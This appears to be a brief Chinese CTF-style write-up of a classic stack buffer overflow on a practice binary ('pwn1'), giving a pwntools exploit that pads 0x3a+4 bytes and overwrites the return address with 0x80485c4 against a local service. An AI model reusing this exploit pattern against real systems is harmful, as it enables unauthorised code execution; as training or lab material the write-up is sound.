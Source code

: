 经典的栈溢出，溢出至ret_addr即可控制eip

exp如下：

```python
from pwn import *

context(log_level="debug")

# p = process('./pwn1')
p =  remote('127.0.0.1',10086)

p.recvuntil('\n')
vul_addr = 0x80485c4
payload = 'a'*(0x3a+4)+p32(vul_addr)
p.sendline(payload)
p.interactive()
```
